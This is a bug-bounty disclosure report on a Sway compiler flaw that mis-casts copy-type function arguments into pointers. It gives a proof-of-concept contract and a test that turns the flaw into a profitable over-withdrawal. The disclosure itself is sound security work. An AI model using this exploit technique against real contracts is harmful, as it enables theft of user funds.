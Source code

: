 
# Incorrect argument pointer creation

Submitted on Fri Jul 05 2024 04:52:06 GMT-0400 (Atlantic Standard Time) by @anatomist for [Attackathon | Fuel Network](https://immunefi.com/bounty/fuel-network-attackathon/)

Report ID: #32859

Report type: Smart Contract

Report severity: Low

Target: https://github.com/FuelLabs/sway/tree/7b56ec734d4a4fda550313d448f7f20dba818b59

Impacts:
- Incorrect sway compilation leading to incorrect bytecode
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

`compile_expression_to_ptr` treats all arguments as pointers, but copy type arguments will be values. 

## Vulnerability Details

Sway allow users to take reference of values. The references may then be passed around and dereferenced later. However, when creating a pointer to a function argument, sway incorrect assumes all arguments are already pointers. If a pointer is a copy type, such as `u64`, `u32`, `u16`, `u8`, the compiler casts the integer directly to a pointer, which is incorrect.

```
let ptr_val = if is_argument {
    // The `ptr_to_int` instructions gets the address of a variable into an integer.
    // We then cast it back to a pointer.
    let ptr_ty = Type::new_ptr(context, ty);
    let int_ty = Type::get_uint64(context);
    let ptr_to_int = self.current_block.append(context).ptr_to_int(val, int_ty);
    let int_to_ptr = self
        .current_block
        .append(context)
        .int_to_ptr(ptr_to_int, ptr_ty);
    int_to_ptr
} else {
    ...
}
```

Confusion between values and pointer are dangerous because they will lead to incorrect execution results.

## Impact Details

As usual, it is hard to come up with a precise impact estimation of undefined behavior because it depends on what code the user writes. The best case scenario would be contracts that run into those bugs getting bricked, and the worst case scenario would be that incorrect program behaviors lead to loss of funds.

## References

- `https://github.com/FuelLabs/sway/blob/acded67b3ec77ce1753356ad46f7ae17290f2ee0/sway-core/src/ir_generation/function.rs#L322`
        
## Proof of concept
## Proof of Concept

Tests are run on sway commit `acded67b3ec77ce1753356ad46f7ae17290f2ee0`.

The assert fails because `get_ref` casts the `u64` to a `u64` pointer directly, so `*a` will actually read data from the address `100`.

```
#[inline(never)]
fn get_ref(n: u64) -> &u64 {
    &n
}

#[test]
fn test() -> () {
    let a = get_ref(100);

    assert(*a == 100);
}
```

We also provide a test to show how this bug can turn into a loss of funds bug. To run this as a unit test with `forc test`, you need to modify the test cli command to provide more input coins, the default is 1.

```
contract;

use std::hash::Hash;
use std::{
    call_frames::msg_asset_id,
    context::msg_amount,
};

const ADDRESS_ADMIN = Address::from(0x0000000000000000000000000000000000000000000000000000000000000003);

storage {
    bank: StorageMap<Address, u64> = StorageMap {},
    fee: u64 = 0,
}

struct Request<A, F, T> {
    amount: &A,
    from: &F,
    to: &T,
}

impl<A, F, T> Request<A, F, T> {
    fn new(amount: A, from: F, to: T) -> Request<A, F, T> {
        Request {
            amount: &amount,
            from: &from,
            to: &to,
        }
    }
}

abi Bank {
    #[payable]
    #[storage(read, write)]
    fn deposit_to(to: Address) -> ();

    #[storage(read, write)]
    fn withdraw_to(from: Address, to: b256, amount: u64) -> u64;
}

impl Bank for Contract {
    #[payable]
    #[storage(read, write)]
    fn deposit_to(to: Address) -> () {
        if msg_amount() == 0 {
            log("Amount is zero");
            revert(1);
        }

        if msg_asset_id() != AssetId::base() {
            log("Not base asset");
            revert(2);
        }

        storage.bank.insert(to, msg_amount());
    }

    #[storage(read, write)]
    fn withdraw_to(from: Address, to: b256, amount: u64) -> u64 {
        if let Some(value) = storage.bank.get(from).try_read() {
            let request = Request::new(amount, from, to);
            if value < amount {
                log("Insufficient balance");
                revert(3);
            }
            let withdrawn = distribute_withdrawal(request, value);
            storage.bank.insert(from, value - amount);
            withdrawn
        } else {
            log("Failed to get value from bank");
            revert(4);
        }
    }
}

#[storage(read, write)]
fn distribute_withdrawal(request: Request<u64, Address, b256>, value: u64) -> u64 {
    if (*request.from != ADDRESS_ADMIN) {
        storage.fee.write(storage.fee.read() + *request.amount / 2);
        __smo(*request.to, "withdraw", *request.amount - *request.amount / 2);
        *request.amount - *request.amount / 2
    } else {
        __smo(*request.to, "withdraw", *request.amount);
        *request.amount
    }
}

#[test]
fn arg_ref_casting_to_loss_of_funds() {
    const ADDRESS_ALICE = Address::from(0x0000000000000000000000000000000000000000000000000000000000000001);
    const ADDRESS_BOB   = Address::from(0x0000000000000000000000000000000000000000000000000000000000000002);

    let val: u64 = 100000;
    let ptr = __addr_of(&val);
    let ptr_int = asm(ptr: ptr) {
        ptr: u64
    };
    assert(ptr_int < 100000 / 2); //check profibility

    let bank = abi(Bank, CONTRACT_ID);
    bank.deposit_to{asset_id : AssetId::base().into(), coins: ptr_int}(ADDRESS_ALICE);
    bank.deposit_to{asset_id : AssetId::base().into(), coins: 100000}(ADDRESS_BOB);
    let withdrawn = bank.withdraw_to(ADDRESS_ALICE, 0x0000000000000000000000000000000000000000000000000000000000000010, ptr_int);
    assert(withdrawn > ptr_int); //assert profit
}
```